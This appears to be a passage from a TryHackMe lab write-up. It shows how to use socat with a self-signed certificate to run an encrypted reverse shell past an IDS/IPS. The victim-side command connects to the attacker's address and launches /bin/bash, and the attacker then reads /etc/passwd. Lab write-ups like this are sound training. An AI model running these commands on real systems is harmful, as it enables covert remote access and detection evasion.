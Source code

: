 Let’s demonstrate this. On the attacker system, we carried out the following:

```ps1 title="Pentester Terminal"
pentester@TryHackMe$ openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
Generating a RSA private key
........................++++
......++++
writing new private key to 'thm-reverse.key'
-----
pentester@TryHackMe$ ls
thm-reverse.crt  thm-reverse.key
pentester@TryHackMe$ cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
2022/02/24 13:39:07 socat[1208] W ioctl(6, IOCTL_VM_SOCKETS_GET_LOCAL_CID, ...): Inappropriate ioctl for device
2022/02/24 13:39:07 socat[1208] N listening on AF=2 0.0.0.0:4443
```

As we have a listener on the attacker system, we switched to the victim machine, and we executed the following:

```ps1 title="Target Terminal"
pentester@target$ socat OPENSSL:10.20.30.129:4443,verify=0 EXEC:/bin/bash
```

Back to the attacker system, let’s run `cat /etc/passwd`:

```ps1 title="Pentester Terminal"
pentester@TryHackMe$ socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
[...]
2022/02/24 15:54:28 socat[7620] N starting data transfer loop with FDs [7,7] and [1,1]

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

However, if the IDS/IPS inspects the traffic, all the packet data will be encrypted. In other words, the IPS will be completely oblivious to exchange traffic and commands such as `cat /etc/passwd`. The screenshot below shows how things appear on the wire when captured using Wireshark. The highlighted packet contains `cat /etc/passwd`; however, it is encrypted.
